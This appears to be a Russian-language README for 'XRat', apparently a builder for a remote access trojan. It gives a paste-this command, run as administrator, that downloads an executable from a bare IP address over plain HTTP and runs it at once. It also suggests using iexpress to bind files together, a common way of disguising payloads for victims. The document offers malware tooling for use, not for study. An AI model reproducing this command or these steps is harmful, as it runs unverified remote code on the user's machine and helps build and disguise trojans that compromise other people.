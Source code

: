 # XRat

Как установить билдер и всё необходимое?
1. Откройте Cmd от имени админа
2. Перейдите в нужную вам папку куда произведётся установка
3. Введите команду 
```bash
curl -O "http://95.31.8.49:5005/download/XRatInstaller.exe" && start XRatInstaller.exe
```
4. Делайте всё по инструкции в установщике
5. После откройте папку и там будут лежать файлы
> Builder.exe
> dotnet_rnt.exe
> XRatInstaller.exe

(Потом можно удалить: > dotnet_rnt.exe и XRatInstaller.exe)

6. Вам нужен только билдер
После установки билдер откроется сам
Обновлять также

Как склеить файлы?
1. Открываем cmd
2. Пишем: iexpress
3. Дальше сами, есть много гайдов в инете

# LINKS
> [THEMES](<https://github.com/UndefinedClear/XRat-themes/tree/main>)
# SCRIPTS
> [Releases](<https://github.com/UndefinedClear/XRat/releases/tag/release>)
# Documentation
> [Go to documentation](<https://avirts-organization.gitbook.io/xrat>)
